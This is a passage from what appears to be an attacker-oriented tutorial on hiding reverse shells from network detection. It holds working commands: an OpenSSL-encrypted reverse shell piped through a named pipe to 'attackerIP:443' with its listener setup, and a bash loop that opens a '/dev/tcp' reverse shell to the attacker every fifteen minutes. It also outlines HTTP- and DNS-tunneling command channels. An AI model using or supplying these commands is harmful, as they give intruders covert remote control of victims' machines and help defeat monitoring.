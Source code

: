 Basic reverse shell connections are mostly transmitted in unencrypted plaintext, making them vulnerable to network traffic analysis. Applying encryption can help evade content inspection-based detection.

```bash
# Attacker side (listener)
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# Target side (reverse shell)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect attackerIP:443 > /tmp/s; rm /tmp/s
```

This method uses OpenSSL to create an encrypted communication channel. It appears similar to HTTPS traffic, making traffic analysis difficult.

### Using HTTP Web Traffic

Since most companies allow web traffic (ports 80, 443), reverse shells utilizing the HTTP protocol are difficult to detect. They exchange commands by disguising them as web requests, making them hard to distinguish from normal web browsing.

Web-based reverse shells operate in the following manner:

1. The target system periodically sends HTTP requests to the attacker's server
2. The server sends commands to be executed in response to the request
3. The target system executes the commands and includes the results in the next HTTP request

### DNS Tunneling

In extremely restricted environments where even HTTP traffic is monitored, reverse shells using DNS queries can be an alternative. Most networks don't block DNS queries as they are essential for internet access.

DNS tunneling encodes commands and responses in DNS packets. The principle of operation is as follows:

1. The attacker controls an authoritative DNS server
2. Commands are encoded in the form of DNS subdomains (e.g., `cmd.ls-al.attack.com`)
3. The target system looks up this domain and receives the command
4. Command execution results are encoded and transmitted as DNS responses

DNS tunneling is slow but has a high chance of working even when all other communications are blocked.

### Intermittent Connection and Delayed Execution

Continuous connections are likely to be detected, so using intermittent connection methods can make detection difficult:

```bash
# Try to connect every 15 minutes
while true; do
  bash -i >& /dev/tcp/attackerIP/port 0>&1 2>/dev/null
  sleep 900
done
```
